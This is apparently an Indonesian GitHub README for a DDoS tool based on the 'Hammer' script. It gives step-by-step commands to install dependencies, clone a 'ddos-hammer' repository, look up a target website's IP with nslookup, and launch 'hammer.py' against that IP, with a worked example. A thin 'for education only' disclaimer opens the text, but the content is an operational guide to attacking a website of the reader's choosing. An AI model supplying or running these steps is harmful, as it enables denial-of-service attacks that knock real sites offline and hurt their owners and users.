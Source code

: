 <b>PERHATIAN... SAYA TIDAK BERTANGGUNG JAWAB ATAS SEGALA DAMPAK YANG AKAN TERJADI</b><br>
<b>TOOLS INI TERBUKA HANYA SEBAGAI EDUKASI, JANGAN DISALAHKGUNAKAN</b><br><br>

$ apt update && apt upgrade (update dan upgrade tools yg sudah ada)<br>
$ apt install python (install python bagi yg belum punya) <br>
$ apt install git (install git biar bisa input command git clone)<br> 
$ git clone https://github.com/fsociety/ddos-hammer.git <br><br>

DDOS tools ini berbasis "Hammer" tool yang membutuhkan <b>Name Server</b> dari website yang ingin anda serang<br>
Biar bisa mendapatkan "Name Server" nya... input command<br>
$ apt install dnsutils (install biar bisa input command nslookup)<br>
$ nslookup example.com <br>
Catat IP Address dari Website tersebut...<br><br>

Kalau semua sudah siap, masuk ke direktori <br>
$ cd ddos-hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
contoh:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Silahkan di STAR dan FORK jika bermanfaat
